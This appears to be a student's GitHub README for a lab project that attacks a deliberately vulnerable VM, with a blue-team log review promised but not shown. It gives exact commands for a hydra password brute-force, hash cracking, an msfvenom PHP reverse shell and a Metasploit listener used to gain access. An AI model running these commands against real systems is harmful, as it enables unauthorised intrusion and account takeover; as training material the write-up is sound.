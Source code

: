 # Red-Team-VS-Blue-Team-Project
Acted as a red team to attack a vulnerable VM within my environment, ultimately gaining root access to the machine. Acted as Blue Team to use Kibana to review logs taken during the attack implemented as the red team.

   Red Team
- Ifconfig to find out network IP address and network range ![ifconfig](https://user-images.githubusercontent.com/61332852/137389108-3288b38b-5fcd-497a-878f-206fe37f54f1.png)

- Netdiscover -r 192.168.1.255/16 Since we know the netmask is 255.255.255.0 that would be 16 bits of the subnet so then we can run the netdiscover command to discover other hosts on the network. ![netdiscover](https://user-images.githubusercontent.com/61332852/137389276-f4aca53a-40ea-41ac-a4b7-9ab04459d79a.png)

     - After running the command we can conclude that there are 3 hosts within the network with the IPs of 192.168.1.1 , 192.168.1.100 and 192.168.1.105.
     - Now we need to discover what machine we need to get access to 
- After checking up on the IPs we can conclude that 192.168.1.105 ended up being a web server.   
- After checking the website we see open directories that show company information showing that this is a vulnerability in itself. ![index](https://user-images.githubusercontent.com/61332852/137389410-4a1dec9f-30c7-4052-9a34-50fb89184500.png)
And while exploring through the files we see an important directory being mentioned by the name of a secret_folder. Which can end up containing PII or important company documents. 
After going in the URL bar and typing in the secret folder found 192.168.1.105/company_folders/secret_folder it then shows a login prompt meant for “Ashton” only. 
After getting a username for a potential login we can then try to brute force the login by using hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder command. 
After using the command we successfully brute force the account and was able to retrieve the login information for ashton 


Logging in the account then brings us to a personal note Ashton then made for himself containing other important information 
A note that hes going to be using Ryans account 
after researching more on the web server we found that Ryan is the CEO of the company.
Hinting knowing that Ashton knows his login information with the hash giving at the top of the screen
Next step is to figure out the login to the file directory dav://192.168.1.105/webdav/ using the hashed password at the top of Ashtons note. Using the website https://crackstation.net/  
Cracking the hash we find the password is linux4u
Getting the login information to the company directory we know can exploit getting into the company system since the server has an open port 80 by creating a reverse shell script. The command being msf venom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > newshell.php
Once the reverse shell script is created we can now upload it to the shared directory to run it. 
Before we run it we will want to run Metasploit to listen to the reverse shell on our host machine to access it remotely.
The commands would be used in this order to begin the listening 
Msfconsole -q
Use exploit/multi/handler
Set payload php/meterpreter/reverse_tcp
(same payload script as the one we copied to the shared directory)
Set LHOST 192.168.1.90
Ip of machine we want to listen on 
Set LPORT 4444
Port we want to listen on
Show options 
To see if all the settings we had set are correct
Run
To execute the listening process


Once this is completed we can now run the actual script through the shared directory dav://192.168.1.105/webdav which then after will then open up meterpreter on our host machine to show that we have now established connection 
After having the session open we can run basic commands to grab any other additional information about the system we got access to like getuid. We can also open up a shell terminal if needed by using the command shell.
We can now run the command find -iname flag.txt to grab the flag we are looking for one the target machine.

